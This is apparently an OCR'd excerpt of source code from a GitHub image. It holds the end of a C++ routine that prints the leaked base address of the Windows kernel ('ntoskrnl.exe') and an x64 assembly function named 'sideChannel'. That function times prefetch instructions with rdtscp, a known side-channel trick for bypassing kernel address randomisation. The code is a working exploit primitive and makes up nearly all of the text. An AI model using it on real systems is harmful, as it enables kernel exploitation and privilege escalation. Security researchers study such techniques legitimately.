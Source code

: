 ```cpp
			break;
		}
	}

	printf("\n[\"ntoskrnl.exe\" base] -> 0x%p\n", Addr);

	return 0;
}
```

```asm
code

PUBLIC sideChannel

sideChannel proc

	xor r8, r8
	xor r9, r9
	xor r10, r10

	xor rax, rax
	xor rdx, rdx

	mov r10, rcx

	mfence

	rdtscp

	mov r8, rax
	mov r9, rdx

	shl r9, 32
	or r9, r8

	lfence

	prefetchnta byte ptr [r10]
	prefetcht2 byte ptr [r10]

	mfence

	rdtscp

	shl rdx, 32
	or rdx, rax

	lfence

	sub rax, r9

	ret

sideChannel endp

end
```
